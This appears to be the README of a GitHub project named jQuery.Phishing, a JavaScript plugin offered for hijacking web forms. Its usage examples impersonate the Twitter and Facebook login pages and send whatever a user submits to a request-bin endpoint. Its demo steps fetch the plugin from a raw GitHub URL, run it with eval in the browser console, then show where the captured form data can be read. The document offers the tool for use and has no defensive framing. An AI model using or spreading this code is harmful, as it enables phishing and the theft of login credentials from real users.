 # jQuery.Phishing
## Usage
Phishing and Hijack All Form
```javascript
$.phishing('https://twitter.com/login','//your_request_bin')
```
### onload
```javascript
$.phishing('https://twitter.com/login',()=>alert`onload`)
```
## Demo
1. Open you website
2. F12 call dev-tool -> console -> input:
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js`,c=>{
  eval(c);
  $.phishing(`//fb.com`,`//requestbin.herokuapp.com/1koaluq1`);
});
```
3. try submit form :)
4. see result: [http://requestb.in/1koaluq1?inspect](http://requestb.in/1koaluq1?inspect)
